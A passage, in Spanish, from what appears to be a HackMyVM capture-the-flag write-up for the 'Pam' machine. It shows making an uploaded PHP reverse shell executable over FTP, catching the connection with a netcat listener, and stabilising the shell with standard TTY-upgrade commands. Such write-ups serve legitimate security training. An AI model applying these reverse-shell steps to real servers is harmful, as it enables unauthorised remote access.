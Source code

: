 Como vemos nos dice que el acceso ha sido denegado.
Para solucionarlo solo debemos asignarle permisos al archivo de la reverse shell en el servidor ftp con el comando chmod.

```bash
 ftp> chmod 777 php-reverse-shell.php 
    200 SITE CHMOD command ok.
```

Una vez cambiamos los permisos ya tendremos la conexión inversa.

![](/assets/images/HMV/Pam-HackMyVM/netcat1.png)

## Tratamiento de la tty

Ahora procedemos a realizar el tratamiento de la tty.

``` bash
$ script /dev/null -c bash 
Script started, output log file is '/dev/null'.
```

Después presionamos CTRL+Z para suspender la shell.

```bash
www-data@pam:/$ ^Z
[1]  + 5181 suspended  nc -lnvp 1234
```

Ahora reseteamos la configuración de la shell que hemos dejado en segundo plano con *reset* y *xterm*

```bash
❯ stty raw -echo; fg
[1]  + 5701 continued  nc -lnvp 1234
                                    reset
reset: unknown terminal type unknown
Terminal type? xterm
```

Exportamos la variables de entorno *TERM* y *SHELL*.

```bash
www-data@pam:/$ export TERM=xterm
www-data@pam:/$ export SHELL=bash
```
 